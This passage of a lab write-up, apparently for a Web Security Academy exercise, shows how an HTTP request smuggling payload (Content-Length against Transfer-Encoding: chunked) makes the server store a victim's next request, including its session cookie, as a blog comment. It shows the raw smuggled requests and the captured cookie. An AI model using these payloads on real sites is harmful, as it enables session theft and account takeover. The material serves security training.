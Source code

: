 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Origin: https://0aa10022031f57b8839bf075004000fc.web-security-academy.net
Referer: https://0aa10022031f57b8839bf075004000fc.web-security-academy.net/post?postId=10
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Content-Length: 200

csrf=QZmH5dI3PgwPOQ8uw6OD1YHk0xhjvvgB&postId=10&name=test2&email=test3%40test.com&website=http%3A%2F%2Ftest4.com&comment=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We can see our following request is written in the comments section:

![img](media/a3329be9700df356231d94b531c84bd4.png)

We increase the "Content-Length" value and see the victim's request is written,
until the cookie appears:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 928
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0aa10022031f57b8839bf075004000fc.web-security-academy.net
Cookie: session=ttGG2cUnVqyKIgqM36GrG5iprUDMiqhi
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Origin: https://0aa10022031f57b8839bf075004000fc.web-security-academy.net
Referer: https://0aa10022031f57b8839bf075004000fc.web-security-academy.net/post?postId=10
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Content-Length: 930

csrf=QZmH5dI3PgwPOQ8uw6OD1YHk0xhjvvgB&postId=10&name=test2&email=test3%40test.com&website=http%3A%2F%2Ftest4.com&comment=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
